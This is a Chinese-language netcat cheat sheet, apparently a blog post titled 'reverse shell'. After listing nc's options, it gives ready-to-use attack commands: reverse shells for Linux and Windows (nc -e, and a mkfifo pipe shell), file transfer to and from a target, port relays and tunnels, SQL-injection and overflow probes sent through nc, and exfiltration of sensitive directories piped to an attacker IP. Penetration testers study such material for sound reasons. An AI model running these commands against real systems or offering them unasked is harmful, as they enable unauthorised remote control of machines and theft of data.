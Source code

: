 ```yaml
---
title: 反向shell
categories:
  - null
description: 反向shell
date: 2025-03-17 12:31:27
tags:
---
```


```bash

语法：nc [-hlnruz][-g<网关...>][-G<指向器数目>][-i<延迟秒数>][-o<输出文件>][-p<通信端口>]
		  [-s<来源位址>][-v...][-w<超时秒数>][主机名称][通信端口...]
参数：
  -g<网关>         设置路由器跃程通信网关，最多可设置8个。
  -G<指向器数目>   设置来源路由指向器，其数值为4的倍数。
  -h               在线帮助。
  -i<延迟秒数>     设置时间间隔，以便传送信息及扫描通信端口。
  -l               监听模式，用于入站连接 (监听本地端口)。
  -n               直接使用IP地址，而不通过域名服务器。
  -o<输出文件>     指定文件名称，把往来传输的数据以16进制字码倾倒成该文件保存。
  -p<通信端口>     设置本地主机使用的通信端口。
  -r               随机指定本地与远端主机的通信端口。
  -s<来源位址>     设置本地主机送出数据包的IP地址。
  -u               使用UDP传输协议。
  -v               显示指令执行过程。
  -w<超时秒数>     设置等待连线的时间。
  -z               使用0输入/输出模式，只在扫描通信端口时使用。
 
```
# 信息收集

## 验证目标主机是否开放特定端口

`nc -zv 目标IP 端口范围  # 例：nc -zv 192.168.1.100 20-443`  

## 获取服务指纹信息（如SSH、HTTP版本）

`echo "HEAD / HTTP/1.0\n\n" | nc 目标IP 80`

# 建立反向 shell

## 1.攻击者监听端口

`nv -lvnp 4444`

## 2.目标机连接攻击者

```bash

# linux
nc -e /bin/bash 攻击者IP 4444  # 直接反弹Shell

## 无 -e 参数时

mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 攻击者IP 4444 > /tmp/f # 使用管道实现交互式Shell

# Windows
nc.exe 攻击者IP 4444 -e cmd.exe

```

# 文件传输

## 发送文件到目标

```bash

# 接收方（攻击者）监听：
nc -lvnp 4444 > received_file

# 发送方（目标）上传文件：
nc 攻击者IP 4444 < 本地文件

```

## 从目标下载文件

```bash
# 接收方（攻击者）准备接收：
nc -lvnp 4444 > 保存路径/文件名

# 发送方（目标）发送文件：
nc 攻击者IP 4444 < 目标文件

```

# 端口转发与代理

## 简单端口转发

将本地端口流量转发到远程主机：

`nc -lvnp 本地端口 -c "nc 目标IP 目标端口"`

## 双向中继（Relay）

通过命名管道实现双向流量转发：
```Bash
mkfifo /tmp/pipe
nc -lvnp 4444 < /tmp/pipe | nc 目标IP 80 > /tmp/pipe
```

# 网络隧道

```Bash
# 目标机通过80端口连接攻击者：
nc 攻击者IP 80 -e /bin/bash

# 加密隧道（需配合其他工具）
# 使用cryptcat（加密版nc）或ncat（支持SSL）：
ncat --ssl -lvnp 4444  # 监听加密端口

```

# 漏洞利用辅助

```bash

# 手工发送Payload
# 测试缓冲区溢出或注入漏洞时直接发送数据：
echo -e "AAAA...恶意Payload..." | nc 目标IP 漏洞端口

# HTTP请求构造
# 快速发送自定义请求测试Web漏洞（如SQL注入）：
echo -e "GET /page?id=1' AND 1=1-- HTTP/1.1\nHost: target.com\n\n" | nc target.com 80
```

# 后渗透利用

```bash
# 横向移动
# 通过已控制的机器作为跳板扫描内网：
nc -zv 内网IP 端口范围

# 数据外传
# 窃取敏感文件后通过DNS或ICMP隧道外传（需配合其他工具）：
tar zcf - 敏感目录 | nc 攻击者IP 4444

```